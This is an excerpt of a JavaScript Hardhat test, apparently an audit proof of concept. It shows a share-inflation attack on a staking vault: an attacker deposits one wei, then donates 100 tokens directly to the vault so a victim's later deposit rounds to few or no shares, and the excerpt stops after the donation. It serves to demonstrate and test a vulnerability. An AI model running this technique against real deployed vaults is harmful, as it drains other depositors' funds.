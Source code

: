 ```javascript

        // Setup redemption pool
        await testTrustToken.approve(
            await redemptionPool.getAddress(),
            ethers.parseEther("100000")
        );
        await redemptionPool.depositRedemptionPool(ethers.parseEther("100000"));

        // Approve spending for users
        await testTrustToken.connect(user1).approve(
            await stakingVault.getAddress(),
            ethers.parseEther("100000000000000000000000")
        );
        await testTrustToken.connect(user2).approve(
            await stakingVault.getAddress(),
            ethers.parseEther("10000")
        );
        await testTrustToken.connect(user3).approve(
            await stakingVault.getAddress(),
            ethers.parseEther("10000")
        );
        
        // Enable redemption in redemption pool
        await redemptionPool.toggleRedemption();
    });

    async function printVaultState() {
        const totalSupply = await stakingVault.totalSupply();
        const vaultBalance = await testTrustToken.balanceOf(await stakingVault.getAddress());
        const attackerShares = await stakingVault.balanceOf(attacker.address);
        const victimShares = await stakingVault.balanceOf(victim.address);
        const attackerRedeemable = await stakingVault.previewRedeem(attackerShares);
        const victimRedeemable = await stakingVault.previewRedeem(victimShares);

        // console.log("--- Vault State ---");
        console.log("vault total supply", totalSupply.toString());
        console.log("vault balance", vaultBalance.toString());
        console.log("attacker shares", attackerShares.toString());
        console.log("victim shares", victimShares.toString());
        console.log("attacker redeemable", attackerRedeemable.toString());
        console.log("victim redeemable", victimRedeemable.toString());
    }

    describe("demonstrates inflation attack", function () {
        
        it("Inflation Attack", async function () {
            await testTrustToken.mint(attacker, 10 ** 9);
            await testTrustToken.mint(victim, 10 ** 9);
    
            // Approve tokens
            await testTrustToken.connect(attacker).approve(await stakingVault.getAddress(), ethers.MaxUint256);
            await testTrustToken.connect(victim).approve(await stakingVault.getAddress(), ethers.MaxUint256);
            
            console.log("--- attacker deposit ---");
            await stakingVault.connect(attacker).deposit(ethers.parseEther("0.000000000000000001"), attacker.address);
            await printVaultState();
            
            console.log("--- attacker donate ---");
            await testTrustToken.connect(attacker).transfer(await stakingVault.getAddress(), ethers.parseEther("100"));
```
